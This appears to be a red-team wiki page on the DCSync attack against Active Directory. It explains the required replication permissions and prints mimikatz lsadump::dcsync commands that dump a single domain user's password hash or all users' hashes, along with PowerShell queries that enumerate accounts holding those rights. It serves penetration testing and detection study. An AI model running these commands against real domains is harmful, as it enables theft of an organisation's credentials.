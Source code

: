 ```yaml
---
label: From DC
subLabel: (dcsync)
---
```


# DCSync

> **Requirements**:
>
> * Current user needs _DCSync_  permissions (see below) on a Domain Object granted. _Domain Admins_, _Enterprise Admins_, _Administrators_ and _Domain Controllers_ groups have the required permissions by default.
> * Access to LDAP service on DC.

A DCSync attack exploits a legitimate function of Active Directory to steal password data from Domain Controller database. The DCSync simulates the behavior of a Domain Controller and asks other DC to replicate information using the _Directory Replication Service Remote Protocol_ (MS-DRSR) and its _GetNCChanges_ function. In response a DC returns the replication data that includes password hashes. Most often, the place from which DCSync is executed is not restricted, so you just need to have the right user.

Required DCSync permissions on the Domain Object:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes In Filtered Set

Windows:

> **WARNING**: It assumes that you are the user who has DCSync permissions and you have valid TGT or TGS for DC LDAP service in memory. It might be required to _become someone else_ (e.g. domain admin) using Delegation Abuse, [Pass-the-Ticket](/windows-lateral-movement/pass-the-ticket) or [RunAs](/windows-lateral-movement/access-token-manipulation) techniques.

```powershell
.\mimikatz.exe

# Get a single domain user password hash
> lsadump::dcsync /domain:$domain /user:$user

# Get all domain users password hashes
> lsadump::dcsync /domain:$domain /all
```

## Enumerate users or groups with DCSync permissions

Active Directory module:

```powershell
(Get-Acl "ad:\dc=$domain_p2,dc=$domain_p1").Access | ? {($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) } | select IdentityReference
```

PowerView module:

```powershell
Get-ObjectACL "DC=$domain_p2,DC=$domain_p1" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | select SecurityIdentifier,@{n="Identity";e={Convert-SidToName $_.SecurityIdentifier}} 
```

## References

* [Red Team Notes 2.0, _DCSync_](https://dmcxblue.gitbook.io/red-team-notes-2-0/active-directory/active-directory-attacks/dcsync)
* [Altered Security, _A primer on DCSync attack and detection_](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
